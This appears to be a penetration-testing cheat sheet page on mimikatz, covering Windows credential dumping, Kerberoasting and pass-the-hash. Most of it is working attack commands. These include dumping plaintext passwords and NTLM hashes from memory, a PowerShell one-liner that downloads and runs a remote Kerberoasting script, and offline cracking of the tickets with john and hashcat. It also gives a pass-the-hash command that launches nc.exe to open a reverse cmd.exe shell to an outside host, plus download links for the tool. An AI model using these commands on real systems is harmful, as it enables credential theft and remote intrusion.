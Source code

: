 ```yaml
---
sidebar_position: 5
---
```


# mimikatz

mimikatz is a powerful post-exploitation tool for extracting plaintext passwords, hashes, PIN codes, and Kerberos tickets from memory on Windows systems.

- [Latest trunk release](https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20210810-2/mimikatz_trunk.7z)
- [2.2.1 trunk (mirror)](https://github.com/caday00/mimikatz2.1.1/raw/master/mimikatz_trunk.zip)
- [2.2.1 trunk (alt)](https://github.com/gentilkiwi/mimikatz/files/4167347/mimikatz_trunk.zip)

## Basic Commands

- **Check domain users:**

  ```cmd
  net user /domain
  ```

- **Check privilege:**

  ```
  privilege::debug
  ```

- **Dump credentials (passwords, NTLM hashes):**

  ```
  sekurlsa::logonpasswords
  ```

- **List Kerberos tickets:**
  ```
  sekurlsa::tickets
  ```

## Kerberoasting (Extracting Kerberos Tickets)

- **Export tickets for offline cracking:**

  ```
  kerberos::list /export
  ```

  > If this doesn't work, use PowerShell alternatives:
  - [How to Kerberoast like a boss (Pentest Partners)](https://www.pentestpartners.com/security-blog/how-to-kerberoast-like-a-boss/)

  ```powershell
  powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1') ; Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash0.txt"
  john --format=krb5tgs kerb-Hash0.txt --wordlist=/usr/share/wordlists/rockyou.txt
  ```

- **Other tools:**
  - [kerberoast (Python)](https://github.com/nidem/kerberoast)
  - [tgsrepcrack.py](https://raw.githubusercontent.com/nidem/kerberoast/master/tgsrepcrack.py)
  - [kirbi2hashcat.py](https://raw.githubusercontent.com/jarilaos/kirbi2hashcat/master/kirbi2hashcat.py)
  - [kirbi2john.py](https://raw.githubusercontent.com/nidem/kerberoast/master/kirbi2john.py)

  ```bash
  python tgsrepcrack.py /usr/share/wordlists/rockyou.txt 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi
  hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
  ```

## Pass-the-Hash & Command Execution

- **Pass-the-Hash and run a command:**

  ```
  sekurlsa::pth /user:username /domain:domain.com /ntlm:7c... /run:"\\192.168.119.1\a\bin\nc.exe -nv 192.168.119.1 443 -e cmd.exe"
  ```

- **Evil-WinRM for remote shell:**
  ```bash
  rbenv shell 2.7.4 ; gem install evil-winrm
  evil-winrm -u user -p pass -i 10.11.1.1
  ```
